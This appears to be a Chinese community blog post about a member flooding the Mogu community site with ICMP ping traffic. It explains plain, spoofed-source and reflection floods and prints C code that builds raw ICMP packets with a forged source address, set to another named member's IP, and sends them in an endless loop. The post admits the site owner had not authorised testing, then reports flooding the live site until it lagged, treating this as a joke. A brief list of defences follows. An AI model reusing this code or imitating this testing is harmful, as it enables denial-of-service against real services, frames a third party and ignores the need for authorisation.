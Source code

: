 大家好，我是**白**。

最近群里小伙伴学习了一些安全相关的知识，准备拿着**蘑菇社区**来测试，差点把蘑菇搞宕机了，下面让我们一起看看群友 **W** 对**蘑菇**做了些什么吧~

因为没有得到**白**授权，所以无法对蘑菇博客进行渗透测试，毕竟 **W** 是**遵纪守法**的。

这时群友提出了通过 **ping** 的方式来进行攻击，而 **W** 恰好是一个修网的网工转的安全，所以简单跟大家聊一下这种攻击方法。

一般，比较常见的攻击手段是 **ping** 泛洪攻击，也叫 **ICMP** 洪水攻击是 **DOS** 攻击的一种。其目的是耗尽受害者的带宽，以至于合法的流量不能通过。攻击者向受害者发送许多很大的 **ping** 数据包，消耗受害者网络连接的带宽。

**ping** 命令的简单了解：**echo request** 回响请求（Type=8 code=0）和 **echo reply** 回响应答（Type=0 code=0）。

下面举个栗子：

当我向蘑菇社区发送一个 **Type=8** 的 **ICMP** 报文，蘑菇社区会返回一个 **Type=0** 的 **ICMP** 报文来证明自己的存在。

小白常用的方式是直接使用 **DOS** 窗口进行 **ping x.x.x.x -l 65500 -t**，此时我们要知道 **ping** 使用的是 **ECHO** 应答，返回的速度很慢 **1-5包/秒** ；

但是 **ICMP** 是 **SOCK\_RAW** 产生的原始报文，在这部分不会有延迟问题，所以延迟的主要来源是计算 **ECHO** 时间.

经 **W** 不辞辛苦的查阅及抓包分析发现是 **icmp.dll** 提供的 **IcmpSendEcho** 这个 **API** 的问题。

**测试阶段**
-------

前提：足够快的数据包发送速度和足够的带宽，下面我们来讲解一下各个攻击方式介绍：

### 直接洪水攻击 >>W采用的方式

 需要一台比蘑菇社区服务器带宽更高的主机，采用多线程的方法一次性发送多个 **ICMP** 请求报文，让目的主机忙于处理大量这些报文而造成速度缓慢甚至宕机。

缺点：白发现了无聊群友的企图，受到攻击后根据 **ICMP** 包的IP地址而屏蔽掉攻击源，使得无聊群友的快乐消失。

### 伪IP攻击

见名知意，就是伪装成群里另外一个小伙伴：**遇见geigei** 的 **ip** 地址，进行挑拨离间。

**图：W主机>>>>>>>>>>蘑菇博客>>>>>>>>>>>>遇见geigei**

           ping伪装ip为x.x.x.x                       pong  pong将报文发送给遇见geigei

### 反射攻击

让一群背锅侠误以为蘑菇社区在向他们发送 **ICMP** 请求包，然后背锅侠向蘑菇社区发送 **ICMP** 应答包，造成来自四面八方的洪水淹没蘑菇社区的现象。这种攻击非常隐蔽，因为受害主机很难查出攻击源是谁。

 **图：W主机>>>>>>>>>>遇见geigei>>>>>>>>>>>>蘑菇社区（截获攻击者IP=遇见geigei）**

准备工具：此处 **W** 利用的公司的内部工具，因为保密协议原因所以向大家展示了其他人的攻击工具，为了确保蘑菇社区的安全性，工具的最终架构线程发包部分没有挂上来，还请大家谅解

    void DoS_icmp_pack(char* packet)
    {
        struct ip* ip_hdr = (struct ip*)packet;
        struct icmp* icmp_hdr = (struct icmp*)(packet + sizeof(struct ip));
    
        ip_hdr->ip_v = 4;
        ip_hdr->ip_hl = 5;
        ip_hdr->ip_tos = 0;
        ip_hdr->ip_len = htons(ICMP_PACKET_SIZE);
        ip_hdr->ip_id = htons(getpid());
        ip_hdr->ip_off = 0;
        ip_hdr->ip_ttl = 64;
        ip_hdr->ip_p = PROTO_ICMP;
        ip_hdr->ip_sum = 0;
        ip_hdr->ip_src.s_addr = inet_addr(FAKE_IP);; //伪装为遇见geigei的ip地址
        ip_hdr->ip_dst.s_addr = dest;  //填入蘑菇社区主机地址
    
        icmp_hdr->icmp_type = ICMP_ECHO;
        icmp_hdr->icmp_code = 0;
        icmp_hdr->icmp_cksum = htons(~(ICMP_ECHO << 8));
    }
    void Dos_Attack()
    {
        char* packet = (char*)malloc(ICMP_PACKET_SIZE);
        memset(packet, 0, ICMP_PACKET_SIZE);
        struct sockaddr_in to;
        DoS_icmp_pack(packet);
    
        to.sin_family = AF_INET;
        to.sin_addr.s_addr = dest;
        to.sin_port = htons(0);
        while(alive)  
        {
            sendto(rawsock, packet, ICMP_PACKET_SIZE, 0, (struct sockaddr*)&to, sizeof(struct sockaddr));        
        }
    
        free(packet); 
    }
    void Dos_Sig()
    {
        alive = 0;
        printf("stop DoS Attack!\n");
    }

##  测试结果

因为W测试的时候是在公司的原因，所以用了W手机的个人热点进行测试，当峰值达到3.3MB时W的电脑进入蘑菇社区时开始出现宕机卡顿现象

此时有蘑菇和W电脑自身问题的两种可能性， 所以需要白授权后利用足够的带宽重新测试。

预防手段：

为了防止无聊群友的出现，所以可以采取限制

###  **方法一：限制**

            设置安全策略，在无聊群友多次ping之后，限制大小与次数

### 方法二：禁ping

            部分插件与监测功能会受到影响，所以此处不建议这种方法

### 方法三：过滤

            通过策略来过滤IP进行防范，此方法在无聊群友不伪装IP时非常有效

### 方法四：等等

因为防范的方法太多，而且W也要去学习java了，所以不逐个列举了

最后吐槽一下点我看图，用户在无法访问蘑菇社区时，看到一个张牙舞爪的七旬老伯跳舞心情又要-100，此处W建议将其换成年轻靓丽的妹子。